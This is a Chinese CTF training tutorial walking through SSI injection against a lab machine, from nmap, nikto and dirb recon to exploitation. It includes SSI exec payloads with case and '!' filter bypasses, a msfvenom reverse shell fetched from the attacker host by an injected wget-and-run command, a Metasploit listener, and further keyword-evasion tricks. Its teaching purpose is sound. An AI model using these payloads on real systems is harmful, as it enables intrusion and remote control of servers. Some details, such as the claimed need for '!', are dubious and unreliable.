# CTF最强战队蓝莲花内部培训教程：P16：17.CTF夺旗SSL注入

在本节课中，我们将要学习CTF比赛中的一种常见漏洞——SSI注入。我们将了解SSI技术的基本概念，并通过一个完整的实验环境，从信息收集开始，逐步利用SSI注入漏洞，最终获取目标服务器的权限。课程内容将涵盖工具使用、漏洞发现、命令执行和权限提升等关键步骤。

## 什么是SSI注入？🔍

上一节我们介绍了课程目标，本节中我们来看看SSI注入的基本概念。

SSI代表Server Side Includes，即服务端包含。SSI技术的出现是为了赋予HTML静态页面动态效果。在动态页面技术普及之前，SSI和CGI被广泛用于HTML静态页面，通过执行系统命令并将结果返回给页面，实现交互效果，模拟出动态页面的功能。

如果在网站目录中发现`.shtm`、`.stm`或`.shtml`文件后缀，通常表示该网站使用了SSI技术。如果网站对SSI的输入没有进行严格或充分的过滤，就会造成SSI注入漏洞，导致用户输入的指令被系统执行并返回结果。

## 实验环境搭建 🖥️

了解了SSI的基本概念后，我们需要一个环境来实践。本节将介绍本次实验的网络环境。

攻击机采用Kali Linux，其IP地址为`192.168.1.103`。靶场机器使用Linux系统，其IP地址为`192.168.1.106`。我们的最终目标是获取靶场机器上的flag值，为此需要先取得服务器的相应权限。

## 第一步：信息探测与收集 🕵️

在开始攻击之前，我们必须先了解目标。本节将使用多种工具对靶场机器进行信息收集。

首先，探测靶场机器开放的服务及其版本信息。我们使用Nmap进行扫描。

以下是使用Nmap进行服务版本探测的命令：
```bash
nmap -sV 192.168.1.106
```
这条命令会向目标服务器发送数据包，并根据返回信息分析并输出开放的服务和版本。

除了基础服务扫描，我们还可以使用Nmap的全面扫描模式来获取更详细的信息，包括操作系统信息。

以下是使用Nmap进行全面扫描的命令：
```bash
nmap -A -T4 -v 192.168.1.106
```
参数`-T4`代表使用最快速度，`-A`启用操作系统检测、版本检测、脚本扫描和路由跟踪，`-v`表示详细输出。

扫描结果显示靶场仅开放了80端口，运行HTTP服务。接下来，我们使用`nikto`对HTTP服务进行深入探测。





以下是使用nikto探测Web服务的命令：
```bash
nikto -h http://192.168.1.106
```
nikto会扫描Web服务器，寻找潜在的安全漏洞、敏感文件和配置问题。



此外，我们还可以使用`dirb`工具来扫描网站目录，发现隐藏的路径和文件。

以下是使用dirb进行目录爆破的命令：
```bash
dirb http://192.168.1.106
```

## 第二步：分析扫描结果与寻找入口 🧩

收集到信息后，下一步是分析这些结果，找到可能的攻击入口。本节将详细分析扫描报告。

分析`nikto`的扫描结果，我们获得了以下关键信息：
*   服务器运行在Ubuntu系统上，使用Apache 2.4.18。
*   发现了一些安全头部（如X-Frame-Options）缺失，这可能存在安全风险。
*   发现了`robots.txt`文件和一个`shtml`目录。
*   发现了多个索引文件，如`index.shtml`和`index.php`。



分析`dirb`的扫描结果，我们发现了以下目录和文件：
*   `/cgi-bin/` (返回403禁止访问)
*   `/robots.txt`
*   `/ssi/` 目录



基于`robots.txt`的提示，我们访问了被禁止爬取的目录，并成功下载了两个备份文件（`index.bak`和`old-config.bak`）。分析`old-config.bak`文件，我们找到了网站的根目录路径。

同时，我们访问了`/ssi/`目录，发现其返回了类似系统命令`ls -la`的执行结果，并显示了我们的IP地址。这强烈暗示该处可能存在命令注入漏洞。

在网站根目录的`index`文件中，我们还发现了一条注释，其格式为：
```
<!--#exec cmd="ls" -->
```
这进一步证实了网站使用了SSI技术，并且可能是我们的注入点。



## 第三步：利用SSI注入漏洞 💉

找到疑似漏洞点后，本节我们将尝试利用SSI注入来执行系统命令。

我们在网站页面中发现了一个表单，这可能是用户输入点。我们尝试提交SSI指令。



首先，我们尝试提交基础的SSI执行命令：
```
<!--#exec cmd="ls" -->
```
提交后发现，返回页面中的`<!--`和`exec`被注释掉了，说明存在过滤。我们尝试使用大小写绕过，将`exec`改为`EXEC`：
```
<!--#EXEC cmd="ls" -->
```
这次提交没有返回错误，但也没有显示命令结果。根据SSI语法，我们需要在指令前加上感叹号`!`。最终，成功的注入payload为：
```
<!--#!EXEC cmd="cat /etc/passwd" -->
```
提交后，成功在页面上返回了`/etc/passwd`文件的内容，证明了SSI注入漏洞的存在，并且我们能够执行任意系统命令。



## 第四步：获取反向Shell与权限提升 🐚

能够执行命令后，我们的目标是获取一个交互式的Shell会话。本节将生成并下载一个反向Shell到靶机。

首先，我们在攻击机（Kali）上使用`msfvenom`生成一个Python反向Shell负载。

以下是生成Python反向Shell的命令：
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
```
此命令生成一个连接到`192.168.1.103:4444`的Meterpreter Shell。

接着，在Kali上启动Apache服务，并将生成的`shell.py`文件移动到Web根目录，以便靶机下载。

以下是启动Apache和移动文件的命令：
```bash
cp /root/Desktop/shell.py /var/www/html/
systemctl start apache2
```

然后，在Kali上使用Metasploit框架设置监听。

以下是Metasploit设置监听器的步骤：
```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 192.168.1.103
set LPORT 4444
exploit
```



最后，在网站的SSI注入点，提交命令让靶机下载并执行我们的Shell脚本。



注入的Payload为：
```
<!--#!EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/s.py && python /tmp/s.py" -->
```
执行后，我们在Metasploit中成功收到了来自靶场的反向Shell连接。

## 第五步：优化Shell与寻找Flag 🏁

获得基础Shell后，通常需要优化其交互性并寻找目标flag。本节将完成最后几步。



我们获得的Meterpreter Shell功能强大，但有时需要更友好的交互界面。我们可以使用Python生成一个完整的TTY Shell。

在获得的Shell中执行以下命令：
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
执行后，我们会获得一个功能更完整的Bash Shell，可以方便地使用命令历史、Tab补全等功能。

在CTF比赛中，最后一步通常是寻找并读取flag文件。Flag通常存放在根目录、用户目录或特定题目目录下。

以下是寻找flag的常用命令：
```bash
find / -name *flag* 2>/dev/null
find / -name *.txt 2>/dev/null
cat /flag.txt
```

## 总结与绕过技巧 📝

本节课中我们一起学习了SSI注入攻击的完整流程。

我们首先介绍了SSI技术及其产生注入漏洞的原理。然后，通过Nmap、Nikto、Dirb等工具对目标进行信息收集。在分析结果时，我们敏锐地发现了`.shtml`文件、SSI目录和注释提示，从而定位到漏洞点。在利用阶段，我们通过**添加感叹号`!`**和**大小写绕过（EXEC）** 成功执行了系统命令。最后，我们通过生成反向Shell、搭建简易HTTP服务器和利用Metasploit监听，成功获取了靶机的控制权，并优化了Shell交互环境。

在实际CTF比赛或安全评估中，防御方可能会设置更多过滤机制。常见的绕过技巧包括：
*   **大小写混合**：如`ExEc`、`eXeC`。
*   **使用特殊字符或编码**：尝试对关键字进行URL编码、十六进制编码等。
*   **利用字符串拼接**：在某些环境下，`e”“x”“e”“c`可能绕过对`exec`的检测。
*   **尝试其他SSI指令**：如`<!--#include virtual=”/etc/passwd” -->`用于文件包含。



掌握这些基础步骤和思维方法，是理解和利用SSI注入漏洞的关键。